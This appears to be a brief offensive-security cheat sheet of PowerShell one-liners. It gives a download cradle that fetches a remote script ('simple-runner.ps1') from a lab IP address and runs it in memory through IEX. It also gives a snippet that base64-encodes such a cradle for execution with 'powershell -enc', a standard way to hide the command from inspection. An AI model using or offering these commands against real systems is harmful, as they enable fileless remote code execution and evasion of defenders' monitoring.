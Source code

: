 ## Onliner


### Powershell
#ps1 #runner #cradle
Download cradle in memory:
``` ps1
(New-Object System.Net.WebClient).DownloadString("http://192.168.49.155/simple-runner.ps1") | IEX
```

#ps1 #encoding
Encode download cradle:
``` ps1
$text = "<download cradle>"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($text)
$EncodedText = [Convert]::ToBase64String($bytes)
$EncodedText
# then to execute use powershell -enc <encoded_text>
```